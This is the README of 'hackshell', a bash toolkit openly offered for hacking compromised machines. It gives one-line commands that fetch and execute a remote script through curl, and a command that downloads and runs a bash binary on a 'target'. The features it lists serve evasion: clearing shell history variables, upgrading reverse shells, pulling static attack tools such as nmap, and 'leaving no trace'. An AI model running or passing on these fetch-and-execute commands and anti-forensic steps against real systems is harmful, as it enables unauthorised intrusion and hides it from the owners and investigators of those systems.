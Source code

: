 # hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 source <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

It works best with bash. Download BASH if there is no bash on your target:
```shell
curl -obash -SsfL "https://bin.ajam.dev/$(uname -m)/bash" && chmod 700 bash && ./bash --version && exec ./bash -il
```
